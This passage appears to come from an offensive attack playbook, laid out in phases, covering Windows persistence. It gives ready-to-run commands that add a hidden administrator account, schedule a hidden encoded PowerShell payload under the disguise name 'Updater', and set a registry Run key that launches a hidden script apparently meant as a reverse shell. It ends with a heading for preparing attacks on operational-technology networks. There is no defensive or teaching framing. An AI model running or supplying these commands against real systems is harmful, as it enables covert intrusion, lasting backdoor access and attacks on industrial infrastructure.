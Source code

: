 ### Create a hidden user (LOLBAS)

```bash
net user stealthyUser P@ssw0rd! /add
net localgroup administrators stealthyUser /add
```

### Persist via Scheduled Task or Service

```bash
schtasks /create /tn "Updater" /tr "powershell -NoP -NonI -W Hidden -Enc <payload>" /sc minute /mo 15
```

Or use registry run keys:

```bash
reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v Updater /t 

REG_SZ /d "powershell.exe -WindowStyle Hidden -File C:\Users\Public\rev.ps1"
```

## Phase 9: OT Network Target Prep (Later Stage)
